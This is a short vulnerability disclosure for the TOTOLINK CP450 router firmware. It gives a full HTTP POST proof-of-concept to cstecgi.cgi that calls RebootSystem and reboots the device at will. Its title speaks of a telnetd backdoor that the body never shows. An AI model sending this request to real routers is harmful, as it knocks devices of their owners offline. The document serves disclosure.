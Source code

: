 ## CP450 backdoor for telnetd

### Overview

* Vendor: TOTOLINK

* Product: CP450
* Version: TOTOLINK_C8B193C-1H_CP450_CP0017_8881A_SPI_8M64M_V4.1.0cu.747_B20191224_ALL.web

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20200414/2254ce90058da1a549566852c86031db.zip

### Vulnerability details

The function `RebootSystem` of the file `lib/cste_modules/system.so` can reboot the system at will.

![image-20240421163827190](./img/1.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 68
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254/adm/settings.asp
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl":"setting/RebootSystem",
}
```

